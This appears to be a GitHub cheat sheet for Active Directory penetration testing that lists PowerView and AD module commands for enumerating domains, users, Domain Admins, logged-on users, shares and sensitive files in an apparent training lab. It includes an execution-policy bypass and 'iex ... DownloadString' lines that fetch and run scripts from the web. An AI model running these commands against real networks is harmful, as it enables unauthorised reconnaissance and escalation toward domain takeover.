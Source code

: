<div align="center">
<h1> Attacking and Defending Active Directory :nepal: </h1>
<a href="https://twitter.com/nirajkharel7" ><img src="https://img.shields.io/twitter/follow/nirajkharel7?style=social" /> </a>
</div>

## Domain Enumerationn Part 1
- The enumeration can be done by using Native executables and .NET classes
- `$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]`
- `$ADClass::GetCurrentDomain()`
- Where `DirectoryServices.ActiveDirectory.Domain` is a class and `GetCurrentDomain()` is a static method.

**Domain Enumeration with Powerview and AD PowerShell module**
- To speed up things we can use Powerview:
- `https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1`

- The Active Directory PowerShell module
- `https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps`
- `https://github.com/samratashok/ADModule`
- (To use ActiveDirectory module without installing RSAT, we can use Import-Module for the valid ActiveDirectory module DLL)

**Run unrestricted commands with powershell**
- `powershell -ep bypass`
- **Powerview Script Download**
- `iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/PowerView.ps1')`
- **ActiveDirectory Module Download**
- `https://github.com/samratashok/ADModule` Download and Execute with `. .\Import-ActiveDirectory.ps1;Import-ActiveDirectory`
-  or
- `iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory `

**Get Current Domain**
- `Get-NetDomain` (Powerview)
- `Get-ADDomain` (ActiveDirectory Module)

**Get object of another domain**
- `Get-NetDomain -Domain <domain-name>`
- `Get-ADDomain -Identity <domain-name>`

**Get Domain SID for the current domain**
- `Get-DomainSID`
- `(Get-ADDomain).DomainSID`

**Get domain policy for the current domain**
- `Get-DomainPolicy`
- `(Get-DomainPolicy)."system acccess"`

**Get domain policy for another domain**
- `(Get-DomainPolicy -domain moneycorp.local)".system access"`

**Get domain controllers for the current domain**
- `Get-NetDomainController`
- `Get-ADDomainController`

**Get domain controllers for another domain**
- `Get-NetDomainController -Domain <domain-name>`
- `Get-ADDomainController -DomainName <domain-name> -Discover`

**Get a list of users in the current domain**
- `Get-NetUser`
- `Get-NetUser -Username <username>`
- `Get-ADUser -Filter * -Properties *`
- `Get-ADUser -Identity <username> -Properties *`

**Get list of all properties for users in the current domain**
- `Get-UserProperty`
- `Get-UserProperty -Properties pwlastset`
- `Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property | select Name`
- `Get-ADUser -Filter * -Properties * | select name,@{expression={[datetime]::fromFileTime($_.pwdlastset)}}`

**Search for a particular string in a user's attributes**
- `Find-UserField -SearchField Description`
- `Find-UserField -SearchField Description -SearchTerm "built"`
- `Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select name,Description`

**Get a list of computers in the current domain**
- `Get-NetComputer`
- `Get-NetComputer -OperatingSystem "*Server 2016"`
- `Get-NetComputer -Ping`
- `Get-NetComputer -FullData`
- `Get-ADComputer -Filter *`
- `Get-ADComputer -Filter * | select Name`

**Get all the groups in the current domain**
- `Get-NetGroup`
- `Get-NetGroup -Domain <targetDomain>`
- `Get-NetGroup -FullData`
- `Get-ADGroup -Filter * | select name`
- `Get-ADGroup -Filter * -Properties *`

**Get all groups containing the word "admin" in group name**
- `Get-NetGroup -GroupName *admin*`
- `Get-ADGroup -Filter 'Name -like "*admin*"' | select Name`

**Get all the members of the Domain Admins Group**
- `Get-NetGroupMember -GroupName "Domain Admins" -Recurse`
- `Get-ADGroupMember -Identity "Domain Admins" -Recursive`

**Get the group membership for a user**
- `Get-NetGroup -Username "student1"`
- `Get-ADPrincipalGroupMembership -Identity student1`

**List all the local groups on a machine (needs administrator privs on non-dc machines**
- `Get-NetLocalGroup -ComputerName dcorp-dc.dollarccorp.moneycorp.local -ListGroups

**Get members of all the local groups on a machine (needs administrator privs o non-dc machines)**
- `Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Recurse`

**Get actively logged users on a computer (needs local admin rights on the target)**
- `Get-NetLoggedon -ComputerName <servername>`

**Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)**
- `Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local`

**Get the last logged user on a computer (needs administrative rights and remote registry on the target)**
- `Get-LastLoggedOn -ComputerName <servername>`

**Find shares on hosts in current domain**
- `Invoke-ShareFinder -Verbose`

**Find sensitive files on computer in the domain**
- `Invoke-FileFinder -Verbose`

**Get all fileservers of the domain**
- `Get-NetFileServer`
